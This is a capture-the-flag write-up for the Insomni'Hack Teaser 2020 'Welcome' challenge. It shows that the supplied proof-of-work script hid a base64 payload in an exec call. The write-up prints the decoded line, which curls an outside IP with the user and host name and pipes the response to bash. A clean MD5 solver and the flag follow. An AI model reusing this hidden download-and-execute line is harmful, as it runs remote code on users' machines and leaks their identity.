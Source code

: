 # [cd ../](../index.md)
# Welcome

> This year we added a Proof of Work to some of our challenges.

> Just run `python pow.py <target>`, were `target` is the value provided by the server and get the flag.

> [pow](https://storage.googleapis.com/insomnihack/media/pow.zip)

> `nc welcome.insomnihack.ch 1337`

# Files we got
- [pow.zip](from_box/pow.zip)
- And if u extract it u got [pow.py](from_box/pow-b39e9d8f81a48ac92097ce060d587ace718c2db8bc9b3906ac640b90a62dc497.py)

# Start
Just run `nc welcome.insomnihack.ch 1337` and we got 
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "06b292" and get the flag ;)

```
- It needs an input
- We got the starting of the md5 string but we need to input the cleartext one  
Like: the server gives `098f6b` and we have to guess the original string that is `test` now. To check it we can use `echo -n "test" | md5sum` and we got `098f6bcd4621d373cade4e832627b4f6  -`

# Cracking
- We have to crack it somehow so lets take a look at the script we got :D
- It has some weird encoded base64 string in an `exec` function.  
Thats weird af. Decrypt it! We got
```
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```
- DELETE THIS SH1T
- Now we have the correct code([pow_corrected.py](pow_corrected.py))

```
#!/usr/bin/python3

import hashlib
import sys

target = sys.argv[1]
i = 0

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

## Getting the flag
- Just connect to nc `nc welcome.insomnihack.ch 1337`
- Copy the string u got `d2295b`
- Run the decryptor `python pow_corrected.py d2295b`
- Send the output `15882830`

# Got it
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "d2295b" and get the flag ;)
15882830


MITM are real: check SHA, check code, ...

INS{Miss me with that fhisy line}
```
The flag is `INS{Miss me with that fhisy line}`

